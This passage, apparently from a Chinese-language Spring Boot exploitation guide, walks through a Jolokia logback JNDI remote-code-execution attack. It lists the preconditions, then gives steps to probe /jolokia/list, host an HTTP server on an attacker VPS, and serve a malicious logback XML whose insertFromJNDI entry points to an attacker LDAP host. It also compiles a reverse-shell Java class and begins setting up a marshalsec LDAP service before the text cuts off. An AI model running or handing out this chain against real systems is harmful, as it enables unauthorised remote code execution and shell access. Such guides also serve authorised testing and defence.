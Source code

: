 

### 0x04：jolokia logback JNDI RCE

#### 利用条件：

- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

- 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过



#### 利用方法：

##### 步骤一：查看已存在的 MBeans

访问 `/jolokia/list` 接口，查看是否存在 `ch.qos.logback.classic.jmx.JMXConfigurator` 和 `reloadByURL` 关键词。



##### 步骤二：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```



在根目录放置以 `xml` 结尾的 `example.xml`  文件，内容如下：

```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
</configuration>
```



##### 步骤三：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java)  `JNDIObject.java`，

使用兼容低版本 jdk 的方式编译：

```bash
javac -source 1.5 -target 1.5 JNDIObject.java
```

然后将生成的 `JNDIObject.class` 文件拷贝到 **步骤二** 中的网站根目录。



##### 步骤四：架设恶意 ldap 服务

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 ldap 服务：
